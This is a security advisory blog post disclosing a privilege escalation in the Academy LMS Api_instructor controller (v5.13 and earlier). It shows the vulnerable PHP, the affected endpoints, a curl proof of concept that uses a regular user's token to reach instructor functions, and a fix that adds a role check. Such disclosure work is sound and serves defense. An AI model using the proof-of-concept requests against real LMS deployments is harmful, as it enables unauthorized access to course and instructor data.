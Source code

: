 ```yaml
---
title: "Privilege Escalation Vulnerability in Academy LMS Api_instructor Controller"
date: 2025-07-20
tags: ["security", "privilege-escalation", "academy-lms", "vulnerability"]
categories: ["Security Research"]
draft: false
url: "/academy-lms-instructor-escalation-3n7b9f2w5k/"
_build:
  list: false
  render: true
  publishResources: true
sitemap:
  disable: true
---
```


## Overview

A significant privilege escalation vulnerability has been identified in Academy LMS versions up to and including 5.13, allowing regular users to access instructor-only functionality without proper authorization.

## Technical Details

**CVE ID:** Pending Assignment  
**CVSS Score:** 8.6 (High)  
**Affected Versions:** Academy LMS ≤ v5.13  
**Vulnerability Type:** Privilege Escalation / Access Control Bypass  

### Affected Component
- File: `lms/application/controllers/Api_instructor.php`
- Lines: 20, 47, 91, 110, 124, 135, 148, 155, 168, 181, 195

### Vulnerability Description

The Api_instructor controller fails to properly validate user roles before granting access to instructor-specific functions. While the system checks for valid JWT tokens, it does not verify the `is_instructor=1` flag in the user's database record, allowing any authenticated user to access instructor functionality.

### Vulnerable Source Code

```php
// From lms/application/controllers/Api_instructor.php:20-35
public function token_data_get($auth_token)
{
  if (isset($auth_token)) {
    try {
      $jwtData = $this->tokenHandler->DecodeToken($auth_token);
      return json_encode($jwtData);
    } catch (Exception $e) {
      echo 'catch';
      http_response_code('401');
      echo json_encode(array("status" => false, "message" => $e->getMessage()));
      exit;
    }
  } else {
    echo json_encode(array("status" => false, "message" => "Invalid Token"));
  }
}

// From lms/application/controllers/Api_instructor.php:47-54  
public function change_password_post()
{
  $response = array();
  if (isset($_POST['auth_token']) && !empty($_POST['auth_token']) /* ... */) {
    $auth_token = $_POST['auth_token'];
    $logged_in_user_details = json_decode($this->token_data_get($auth_token), true);
    if ($logged_in_user_details['user_id'] > 0) {
      // Missing: Check if user has is_instructor=1 flag
      $response = $this->api_instructor_model->change_password_post($logged_in_user_details['user_id']);
    }
  }
}
```

## Impact

A regular authenticated user can:
1. Create unlimited courses without instructor privileges
2. Modify existing course content
3. Access sensitive instructor data and analytics
4. Change instructor passwords and profile information
5. Manipulate course pricing and availability
6. Bypass the platform's business model entirely

## Affected Endpoints

The following API endpoints are vulnerable to privilege escalation:

```
GET  /lms/api_instructor/userdata
POST /lms/api_instructor/update_userdata
POST /lms/api_instructor/add_course
POST /lms/api_instructor/update_course
GET  /lms/api_instructor/courses
GET  /lms/api_instructor/token_data
POST /lms/api_instructor/change_password
POST /lms/api_instructor/change_profile_photo
GET  /lms/api_instructor/add_course_form
GET  /lms/api_instructor/edit_course_form
GET  /lms/api_instructor/update_course_status
```

## Proof of Concept

```bash
# 1. Login as regular user
curl -X POST "https://target.com/lms/api/login" \
  -d "email=regularuser@example.com&password=userpass"

# 2. Extract JWT token from response
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..."

# 3. Access instructor functionality (should fail but doesn't)
curl -X GET "https://target.com/lms/api_instructor/userdata?auth_token=${JWT_TOKEN}"

# 4. Create unauthorized course
curl -X POST "https://target.com/lms/api_instructor/add_course" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "auth_token=${JWT_TOKEN}&title=Unauthorized Course&description=Created by regular user"
```

## Root Cause Analysis

The vulnerability exists because the Api_instructor controller only performs the following check:

```php
// Insufficient validation - only checks JWT validity
if (!$this->jwt_model->validate_jwt_token()) {
    // Reject request
}
// Missing: Check if user has is_instructor=1 flag
```

The correct implementation should include:

```php
// Proper validation
if (!$this->jwt_model->validate_jwt_token()) {
    // Reject request
}

$user_data = $this->jwt_model->get_user_data_from_token();
if ($user_data['is_instructor'] != 1) {
    // Reject - user is not an instructor
}
```

## Mitigation

### Immediate Fix
Add proper instructor role validation to all methods in the Api_instructor controller:

```php
public function __construct() {
    parent::__construct();
    
    // Validate JWT token
    if (!$this->jwt_model->validate_jwt_token()) {
        http_response_code(401);
        echo json_encode(['error' => 'Unauthorized']);
        exit;
    }
    
    // Validate instructor role
    $user_data = $this->jwt_model->get_user_data_from_token();
    if (!isset($user_data['is_instructor']) || $user_data['is_instructor'] != 1) {
        http_response_code(403);
        echo json_encode(['error' => 'Insufficient privileges']);
        exit;
    }
}
```

### Best Practices
1. Implement role-based access control consistently
2. Use middleware for authorization checks
3. Validate user permissions at the database level
4. Implement proper error handling for authorization failures
5. Add audit logging for privilege escalation attempts

## Business Impact

This vulnerability can result in:
- Financial losses due to unauthorized course creation
- Compromise of the platform's business model
- Data exposure of instructor analytics and earnings
- Reputation damage and loss of user trust

## Timeline

- **Discovery:** July 2025 (During white box penetration testing)
- **Vendor Notification:** July 20, 2025 (Responsible disclosure to Creativeitem/Academy LMS team)
- **CVE Request Submitted:** July 20, 2025 (CVE number requested from MITRE)
- **Vendor Response:** Awaiting response from vendor
- **Public Disclosure:** July 20, 2025

*This vulnerability was discovered during a white box penetration test. Given that Academy LMS is a widely-used commercial template with many installations across different organizations, we decided to report this as a responsible disclosure to help protect all users of this platform.*

*This timeline will be updated accordingly as the responsible disclosure process progresses.*

## References

- [OWASP Access Control Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html)
- [Academy LMS Documentation](https://codecanyon.net/item/academy-learning-management-system/22703468)

## Credit

This vulnerability was discovered and responsibly disclosed by the security research team at suryadina.com.

---
*This post is part of our ongoing security research into popular Learning Management Systems. For more security insights, visit [https://suryadina.com](https://suryadina.com).*